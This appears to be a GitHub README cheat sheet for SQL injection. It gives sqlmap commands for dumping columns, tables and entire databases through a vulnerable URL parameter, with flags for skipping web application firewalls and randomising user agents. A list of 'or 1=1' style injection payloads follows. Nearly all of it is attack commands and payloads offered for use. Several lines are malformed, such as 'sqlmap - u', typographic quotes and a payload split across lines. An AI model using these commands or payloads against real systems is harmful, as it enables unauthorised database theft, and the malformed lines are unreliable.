 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```


<h2> SQL Injection Confirmation<h2>
 
 
 ```
 or 1=1 

‘or 1=1

“or 1=1

or 1=1–

‘or 1=1–

“or 1=1–

or 1=1#

‘or 1=1#

“or

1=1#

or 1=1/*

‘or 1=1/*

“or 1=1/*

or 1=1;%00

‘or 1=1;%00

“or 1=1;%00

‘or’

‘or

‘or’–

‘or–

or a=a

‘or a=a

“or a=a

or a=a–

‘or a=a —

“or a=a–

or ‘a’=’a’

‘or ‘a’=’a’

“or ‘a’=’a’

‘)or(‘a’=’a’

“)”a”=”a”

‘)’a’=’a

‘or”=’
```
